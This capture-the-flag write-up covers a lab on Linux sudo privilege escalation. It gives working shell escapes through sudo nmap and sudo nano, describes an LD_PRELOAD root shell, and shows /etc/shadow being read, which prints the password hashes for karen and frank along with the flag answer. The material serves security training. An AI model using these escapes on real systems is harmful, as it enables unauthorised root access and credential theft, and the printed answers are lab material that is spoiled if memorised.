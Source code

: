 The sudo command allows running programs with root privileges. Administrators can restrict users to running specific commands with elevated rights, which can be checked using sudo -l. The site GTFOBins provides methods to escalate privileges using sudo-allowed programs.
### Privilege Escalation Techniques:
1. Leveraging Application Functions
   - Some applications (e.g., Apache2) can be manipulated to leak sensitive information, such as /etc/ shadow, by exploiting configuration file loading options.
2. Using LD_PRELOAD
   - If the env_keep option is enabled, LD_PRELOAD can load a malicious shared object (.so) file before a program runs.
   - The .so file can execute a root shell by setting user and group IDs to 0.
   - The attack works by compiling a simple C program into a shared object and running it with sudo LD_PRELOAD=/path/to/shell.so find, granting root access.
These techniques demonstrate how misconfigurations in sudo and system environment settings can be exploited for privilege escalation.

### Q.1: How many programs can the user "karen" run on the target system with sudo rights?
We can use the ```sudo -l``` command to see which commands the karen user can run with sudo rights.
```
$ sudo -l
Matching Defaults entries for karen on ip-10-201-43-244:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-201-43-244:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```
We see that there are three commands she can run as sudo: find, less and nano.
### Answer: 3

### Q.2: What is the content of the flag2.txt file?
Let's first see what we can find in our current directory using ls. The /home directory is the most important for us, so let's cd into it.
From there on, when we ls, we can see that there is a singular directory named ubuntu. 

Let's cd into ubuntu via ```cd /home/ubuntu```. When we run the **ls** command we can see that we successfully found the flag2.txt file.
```
$ cd /home/ubuntu
$ ls
flag2.txt
```
Now, we can simply cat flag2.txt and voila, we've found our flag!
```
$ cat flag2.txt
THM-402028394
```
### Answer: THM-402028394
### Q.3: How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?
This question is similar to the previous one. If you go back to GTFOBins you can find the following page related to nmap:

https://gtfobins.github.io/gtfobins/nmap/#sudo

It describes the following code:
```
sudo nmap --interactive
nmap> !sh
```
Which is the expected answer!
### Answer: sudo nmap -- interactive
### Q.4: What is the hash of frank's password?
When we cd back to root via cd /, and we run the id command, we can see that we do not have root access, thus we will not be able to read Frank's password. 
Run cat /etc/shadow and you will see we cannot get access.
```
$ cat /etc/shadow
cat: /etc/shadow: Permission denied
```
Let's fix that. Run sudo nano and press **CTRL+R** and **CTRL+X**. Enter the following command to gain root access: ```reset; bash 1>&0 2>&0``` and press Enter.
Then we could run the **id** command and see that we have root access.
```uid=0(root) gid=0(root) groups=0(root)```

Now we can go ahead and run ```cat /etc/shadow``` again and would you know it, we can now find Frank's hashed password!
```
ubuntu:!:18796:0:99999:7:::
lxd:!:18796::::::
karen:$6$QHTxjZ77ZcxU54ov$DCV2wd1mG5wJoTB.cXJoXtLVDZe1Ec1jbQFv3ICAYbnMqdhJzIEi3H4qyyKO7T75h4hHQWuWWzBH7brjZiSaX0:18796:0:99999:7:::
frank:$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::
```
There we have frank’s hash:
### Answer: $6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1

